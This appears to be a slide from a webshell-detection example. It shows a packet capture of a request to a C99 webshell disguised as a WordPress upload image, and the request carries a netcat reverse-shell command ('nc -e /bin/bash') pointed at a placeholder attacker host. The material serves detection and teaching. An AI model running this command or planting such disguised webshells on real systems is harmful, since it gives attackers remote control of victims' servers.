

# Webshell detection POC/Example
In the following packet capture snippet it can be seen how attacker uses netcat to send a reverse shell utilizing C99 command execution feature:
 00:33:26.996555 IP attackerIP.51421 > victimdomain.80:
 Flags [P.], seq 0:1014, ack 1, win 4117, options [nop,nop,TS val 787630908 ecr 267163], length 1014:
 HTTP: POST /wordpress/wp-content/uploads/2016/06/c9920161.php.jpg HTTP/1.1E..*..@.@......q.......P
 .....U......\%........K<....POST /wordpress/wp-content/uploads/2016/06/c9920161.php.jpg
Referer: http://victimdomain/wordpress/wp-content/uploads/2016/06/c9920161.php.jpg
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,es;q=0.6
Cookie: wordpress_test_cookie=WP+Cookie+check;wordpress_logged_in_c8c9d8ea3e0f27d770e745c21c00f45e
=test\%7C1465100854\%7Cd83074c4a4a1c097c4eb44b42165d190; wp-settings-time-2=1464928107; PHPSESSID=
 cav3sgkd273gafknm9pb13m467act=cmd&cmd=nc+-e+\%2Fbin\%2Fbash+attackerIP+9999&d=\%2Fvar\%2Fwww\%2
 Fwordpress\%2Fwp-content\%2Fuploads\%2F2016\%2F06\%2F&submit=Execute&cmd_txt=1